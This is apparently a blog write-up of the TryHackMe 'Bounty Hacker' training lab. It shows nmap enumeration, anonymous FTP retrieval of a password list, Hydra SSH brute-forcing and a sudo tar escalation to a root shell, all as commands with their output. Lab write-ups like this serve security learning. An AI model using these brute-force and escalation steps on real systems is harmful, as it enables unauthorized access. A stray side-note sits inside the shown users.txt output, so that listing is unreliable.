 ```yaml
---
title:  "TryHackMe - Bounty Hacker writeup"
header:
  teaser: "/assets/images/THM_logo.jpg"
categories: 
  - TryHackMe
tags:
  - writeups
---
```


Bounty Hacker is an easy boot-to-root machine to get started. Definitely goes to starter pack on TryHackMe.

[Bounty Hacker on TryHackMe](https://tryhackme.com/room/cowboyhacker)

<figure>
	<a href="/assets/images/BountyHacker/bh_main.jpg"><img src="/assets/images/BountyHacker/bh_main.jpg"></a>
</figure>

*NOTE: All passwords listed there are fake. Run listed commands to find real ones*

Here goes!

## Enumeration

### Nmap
Starting with `nmap` to determine what ports are open and what services are running.

Meaning of used options can be seen in my previous THM writeups or in `nmap --help`
  
Full command and result of scanning: 
{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ sudo nmap -T4 -p- -A 10.10.238.239
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 06:56 EDT
Nmap scan report for 10.10.238.239
Host is up (0.14s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.57.246
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Infomir MAG-250 set-top box (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Ubiquiti AirOS 5.5.9 (90%), Linux 2.6.32 - 3.13 (89%), Linux 3.3 (89%), Linux 2.6.32 - 3.1 (89%), Linux 3.7 (89%), Netgear RAIDiator 4.2.21 (Linux 2.6.37) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

m0rn1ngstr@kali:~/THM/BountyHacker$

{% endhighlight %}

After reviewing the results of `nmap` scan we can point out some useful findings:

1. anonymous access to `FTP` on port 21
2. `HTTP page` and `Apache 2.4.18` server on port 80
3. `SSH` on port 22

### HTTP
After accessing this page in browser we saw this:

<figure>
	<a href="/assets/images/BountyHacker/site.jpg"><img src="/assets/images/BountyHacker/site.jpg"></a>
</figure>

This page is useful story-wise, but there is nothing really that we can use later, except for some names as possible `usernames`.

`Dirbuster` also resulted in nothing.

### FTP
Nmap scan showed us that `Anonymous FTP login allowed`, so why not use it.

{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ ftp 10.10.238.239
Connected to 10.10.238.239.
220 (vsFTPd 3.0.3)
Name (10.10.238.239:m0rn1ngstr): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (514.7772 kB/s)
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.03 secs (14.6399 kB/s)
ftp> exit
221 Goodbye.

{% endhighlight %}

We logged in `ftp`, found two files, let's check them out:

{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e

m0rn1ngstr@kali:~/THM/BountyHacker$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin


{% endhighlight %}

Now we have a list of potential passwords and addition to possible usernames.
{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ cat users.txt 
vicious
*Side-note: I am not familiar with "Cowboy Bebop" fandom, so the user list is created only based on names I came across during the walkthrough. I am sure that it can be filtered more.*
lin
redeye
spike
jet
ed
faye
user
root
{% endhighlight %}

*Side-note: I am not familiar with "Cowboy Bebop" fandom, so the user list is created only based on names I came across during walkthrough. I am sure that it can be filtered more.*

## Gaining Shell and User flag

### HYDRA

Now we can `brute-force` our way in using `Hydra` for `ssh`.

Again, the meaning of options can be found in my previous writeups or in `hydra --help`

{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ hydra -t 4 -L users.txt -P locks.txt ssh://10.10.238.239
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 07:17:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 208 login tries (l:8/p:26), ~52 tries per task
[DATA] attacking ssh://10.10.238.239:22/
[STATUS] 33.00 tries/min, 33 tries in 00:01h, 175 to do in 00:06h, 4 active
[22][ssh] host: 10.10.238.239   login: lin   password: [some pass]

{% endhighlight %}

Now we got credentials and can log in `ssh` and read `user.txt`

###SSH

{% highlight console %}
m0rn1ngstr@kali:~/THM/BountyHacker$ ssh lin@10.10.238.239
The authenticity of host '10.10.238.239 (10.10.238.239)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.238.239' (ECDSA) to the list of known hosts.
lin@10.10.238.239's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{fake user flag}
lin@bountyhacker:~/Desktop$

{% endhighlight %}

## Privilege escalation and Root flag
Let's check which command can Lin run with sudo
{% highlight console %}
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

{% endhighlight %}

We can escalate privileges using [gtfobins](https://gtfobins.github.io/gtfobins/tar/)
{% highlight console %}
lin@bountyhacker:~/Desktop$ sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
/bin/tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls
root.txt
root@bountyhacker:/root# cat root.txt 
THM{fake root flag}
root@bountyhacker:/root#

{% endhighlight %}

### That's it for this machine. Stay safe and Happy Hacking!
